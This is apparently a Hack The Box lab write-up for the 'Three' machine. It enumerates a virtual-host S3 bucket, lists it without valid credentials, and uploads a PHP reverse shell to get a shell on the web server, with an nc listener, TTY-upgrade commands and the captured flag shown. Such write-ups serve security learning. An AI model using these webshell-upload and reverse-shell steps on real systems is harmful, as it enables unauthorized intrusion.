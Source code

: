 ```yaml
---
layout: default
title: Three
---
```


we start with `nmap`, using this command:
```bash
nmap -p- -sVC --min-rate=10000 $target
```

![nmap](image.png)

We can see that port `22` is opened with *ssh* service, and also port `80` with *apache* service.

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 17:8b:d4:25:45:2a:20:b8:79:f8:e2:58:d7:8e:79:f4 (RSA)
|   256 e6:0f:1a:f6:32:8a:40:ef:2d:a7:3b:22:d1:c7:14:fa (ECDSA)
|_  256 2d:e1:87:41:75:f3:91:54:41:16:b7:2b:80:c6:8f:05 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Toppers
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

When we go to the website, we can see a regular site, and inside we can see it uses domains, as we can see in the mail it uses `thetoppers.htb`.

![domain](image-1.png)

Let's first add to `/etc/hosts`, and then try to find more subdomains, maybe there is something interesting.

For this, I downloaded `SecLists` using this command:
```bash
sudo git clone https://github.com/danielmiessler/SecLists.git
```
and put it inside `/usr/share`, that i'll be able to use it in the future. It has multiple wordlists that can be very useful.

Then, we'll use `gobuster` on `vhost` mode, using this command. Notice the `--append-domain` is important, otherwise it just sends the words from the wordlists, without the original domain:
```bash
gobuster vhost --url http://thetoppers.htb/ -w /usr/share/SecLists/Discovon-5000.txt --append-domain
```

![find s3](image-2.png)

Okay, we find `s3.thetoppers.htb`, which is the bucket of `aws`. let's add it to our `/etc/hosts` file, remember this is only virtual host, so it uses the same ip. 

Now after we want to use the tool `aws` to connect to the bucket. In my case, I needed to install `awscli`, using this command:
```bash
sudo apt install awscli
```

First, we need to configure the credentials using `aws configure` command. In regular state we'll need to put here the real creds, however, in our case we can login also with invalid creds.
```bash
┌──(agonen㉿kali)-[~/htb/Three]
└─$ aws configure
AWS Access Key ID [****************a]: bla
AWS Secret Access Key [****************a]: bla
Default region name [a]: bla
Default output format [a]: bla
```

Then, we want to list all available buckets:
```bash
aws --endpoint "http://s3.thetoppers.htb/" s3 ls
```
We specify the endpoint using the `--endpoint` flag, and also note we want all `s3` buckets, using the `ls` command.

```bash
┌──(agonen㉿kali)-[~/htb/Three]
└─$ aws --endpoint "http://s3.thetoppers.htb/" s3 ls                    
2025-10-06 06:27:28 thetoppers.htb
```

Okay, now we want to get all files in the bucket, using this command:

```bash
aws --endpoint "http://s3.thetoppers.htb/" s3 ls "s3://thetoppers.htb/"
```
![bucket files](image-3.png)

As we can see, it holds the files for the webserver. 
```bash
2025-10-06 06:27:28          0 .htaccess
2025-10-06 06:27:28      11952 index.php
```

Let's upload our `webshell`, that will execute `reverse shell`, and then we'll compromise the webserver.

We uses pentest monkey reverse shell, from here https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php.

```php
{% include_relative scripts/php-reverse-shell.php %}
```

We need to change the `ip` and the `port`, based on our ip and the port we uses to listen using the command `nc -nvlp 770`
![ip and port](image-4.png)

Now, let's upload the `php-reverse-shell.php` using this command:
```bash
aws --endpoint "http://s3.thetoppers.htb/" s3 cp php-reverse-shell.php "s3://thetoppers.htb/"
```

![upload webshell](image-5.png)


And now, set the listener and access the webshell, `http://thetoppers.htb/php-reverse-shell.php`, and go back to the terminal.

![get shell](image-6.png)

I like to paste those commands, it spawns me a normal shell i can work with:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
stty raw -echo
stty rows 38 columns 116
```

I execute `find / -name "flag.txt" 2>/dev/null` to find where `flag.txt` is hidden, and this is the result. 
```
www-data@three:/$ find / -name "flag.txt" 2>/dev/null
/var/www/flag.txt
```

![flag](image-7.png)

**Flag:*****`a980d99281a28d638ac68b9bf9453c2b`***

